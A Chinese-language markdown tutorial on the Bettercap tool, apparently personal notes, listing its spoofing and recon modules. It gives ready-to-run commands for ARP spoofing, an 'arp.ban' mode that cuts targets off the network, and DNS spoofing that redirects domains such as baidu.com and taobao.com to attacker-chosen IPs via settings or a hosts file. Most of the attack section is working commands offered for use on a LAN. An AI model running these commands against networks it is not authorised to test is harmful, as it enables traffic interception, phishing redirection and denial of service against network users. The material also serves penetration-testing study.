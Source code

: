 # Bettercap

https://blog.csdn.net/qq_36119192/article/details/84582109#DNS%C2%A0%E6%AC%BA%E9%AA%97

## 一些常用模块

```
api.rest：RESTful API模块
```
```
net.recon ：主机发现模块，用于发现局域网内存活的主机，默认是开启的
```
```
arp.spoof：arp欺骗模块
```
```
ble.recon：低功耗蓝牙设备发现模块
```
```
net.sniff : 网络嗅探模块
```
```
dhcp6.spoof：dhcp6欺骗模块(通过伪造DHCP数据包篡改客户端的DNS服务器，因此需要与dns.spoof一并启用)
```
```
dns.spoof：DNS欺骗模块
```
```
events.stream：串流输出模块（就是不断地在终端界面刷出程序的输出，例如arp截获的信息）
```
```
wifi：wifi模块，有deauth攻击（wifi杀手）和创建软ap的功能
```
![](img/2.png)

## ARP欺骗

使用bettercap攻击远比ettercap简单，我们只需要两个命令就可以了。

```
any.proxy on
arp.spoof on
```


我们现在用 `bettercap `来进行ARP欺骗，
先看看arp.spoof这个模块怎么用。输入：
```
help  arp.spoof
```
![](img/1.png)
```
arp.spoof  on : 开启ARP欺骗

arp.ban  on ： 开启ARP欺骗，用ban模式，这就意味着目标将不能上网，也就是断网攻击

arp.spoof off ：停止ARP欺骗

arp.ban off :  停止ARP欺骗
```

## 参数：

```
arp.spoof.internal：如果为true，那么网络中的计算机之间的本地连接将被欺骗，否则只能连接到来自外部网络(默认为false)
```
```
arp.spoof.targets：要欺骗的目标，可以是 ip 、mac 或者 别名 ，也可以支持nmap形式的ip区域
```
```
arp.spoof.whitelist：白名单，就是不欺骗的目标，可以是ip、mac或者别名
```
## set来进行攻击目标的设置
```
set arp.spoof.targets  192.168.10.2,192.168.10.14   #我们设置攻击目标，用逗号分隔。分别欺骗网关(192.168.10.2)和要欺骗的主机(192.168.10.14是我另外一台主机)，这里也可以是一个网段，如：192.168.10-20
```
## GET获取arp的值来进行信息收集
```
get arp.spoof.targets    #获取arp.spoof.targets的值
```
## DNS 欺骗

dns欺骗这里有一个前提，那就是局域网内的主机的DNS服务器是局域网内的网关，那样我们才能进行DNS欺骗，如果DNS服务器设置的是公网的DNS服务器，比如设置的谷歌的8.8.8.8 DNS服务器的话，这样是不能进行DNS欺骗的。

DNS欺骗之前，我们先得进行`ARP欺骗`，就是先欺骗主机让其认为网关就是我(攻击机)。然后由于主机的DNS服务器就是网关，所以主机会向我们发送DNS请求，这样我们就可以进行欺骗了。

```
set arp.spoof.targets 192.168.10.2,192.168.10.14
arp.spoof on    #先开启arp欺骗
set dns.spoof.domains www.baidu.com,www,taobao.com  #设置要欺骗的域名,多个域名用,分开，如果要欺骗所有的域名的话，为 * 
set dns.spoof.address 3.3.3.3   #设置将要欺骗的域名转换成对应的ip地址
dns.spoof on   #开启dns欺骗，www.baidu.com和www.taobao.com对应的ip是3.3.3.3
```

## 还有一种方法

我们可以在打开bettercap的目录创建一个文件host，文件中存放这要欺骗的域名和地址，如下

```
1.1.1.1 www.baidu.com
2.2.2.2 www.taobao.com
3.3.3.3 www.mi.com
```
然后我们进行DNS欺骗的时候只需要设置arp.spoof.hosts这个参数即可

## 之前我们得先进行arp欺骗

```
set dns.spoof.hosts host  #设置dns.spoof.hosts里面存放这要欺骗的域名和欺骗后的地址，在bettercap打开的目录下
dns.spoof on  #开启dns欺骗
```


























